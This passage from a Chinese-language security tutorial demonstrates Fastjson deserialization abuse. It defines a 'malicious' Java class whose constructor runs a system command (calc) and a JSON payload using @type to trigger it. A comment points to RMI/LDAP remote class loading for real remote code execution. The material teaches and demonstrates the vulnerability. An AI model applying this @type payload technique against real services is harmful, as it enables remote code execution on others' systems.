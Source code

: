 
5. **利用恶意类触发攻击**：  
   创建恶意类`Run`（构造方法中执行系统命令）：  
```java
package com.xiaodi;

import java.io.IOException;

//恶意类：构造方法中执行系统命令（打开计算器）
//当Fastjson反序列化该类时，会自动调用构造方法，触发命令执行
public class Run {
    public Run() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

   构造含恶意类的JSON并解析：  
```java
//下面JSON -> 对象
//test为正常User类的JSON，test1为含恶意Run类的JSON
String test = "{\"@type\":\"com.xiaodi.User\",\"age\":30,\"name\":\"xiaodi\"}";
String test1 = "{\"@type\":\"com.xiaodi.Run\",\"age\":30,\"name\":\"xiaodi\"}";

//实战中攻击者会通过@type指定恶意类，结合RMI/LDAP远程加载类执行代码（RCE）
//JSON.parseObject会根据@type字段反序列化为指定类的对象
JSONObject jsonObject = JSON.parseObject(test);
System.out.println("这就是json转换为对象的格式："+jsonObject);
JSONObject jsonObject1 = JSON.parseObject(test1); // 解析时实例化Run类，触发calc命令
System.out.println("这就是json转换为对象的格式："+jsonObject1);
```
   运行结果（触发计算器）：  
   ![image-20250812165630866](036安全开发.assets/image-20250812165630866.png)
